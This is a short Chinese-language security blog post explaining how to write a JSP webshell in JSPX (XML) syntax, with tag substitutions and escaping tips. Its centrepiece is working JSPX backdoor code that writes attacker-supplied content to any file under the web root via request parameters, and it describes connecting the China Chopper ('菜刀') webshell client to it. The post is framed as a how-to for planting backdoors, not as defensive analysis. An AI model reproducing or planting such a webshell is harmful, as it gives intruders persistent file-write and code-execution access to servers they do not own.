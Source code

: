 知道<% %>可以用`<jsp:scriptlet></jsp:scriptlet>`标记表示那么做起来就很简单了，直接把标记换下是非常容易做的。所以写个简单的shell一个就很简单了，但是如果想知道具体有那些标签或者说跟jsp里面的有那些不同怎么办呢？下面我简单的做了下对比（前面是jsp的代码提示，后面是jspx）：

![enter image description here](http://drops.javaweb.org/uploads/images/9d7cd30ee84cc5d58f5f6551e2b6782b55340db0.jpg)

照着提示翻译下得知表示jsp里面的<%! %>需要用：`<jsp:declaration></jsp:declaration>`标签去替换就行了。 

### 其他重要提醒：

在jspx里面遵循xml语法所以直接在jsp:declaration或者jsp:scriptlet标签内写"<>"这样的符号是不行的，需要转意（不转意会报编译错误，猜了下只需要把<>转成`&lt;   &gt;`就行了）。 

### jspx后门的具体实现代码：

```
    <jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
    xmlns="http://www.w3.org/1999/xhtml"
    xmlns:c="http://java.sun.com/jsp/jstl/core" version="1.2">
    <jsp:directive.page contentType="text/html" pageEncoding="UTF-8" />
    <jsp:directive.page import="java.io.*" />
    <jsp:scriptlet>
        RandomAccessFile rf = new RandomAccessFile(request.getRealPath("/")+request.getParameter("f"), "rw");
        rf.write(request.getParameter("t").getBytes());
        rf.close();
    </jsp:scriptlet>
</jsp:root>

```

### jspx实现的我之前发的菜刀最终版：  

[http://localhost:8080/jspx.jspx](http://localhost:8080/jspx.jspx)  ￼ 直接用菜刀连接：

![enter image description here](http://drops.javaweb.org/uploads/images/f27ac24a67e020b4ef3db3c7ade309c13804bc30.jpg)

```
```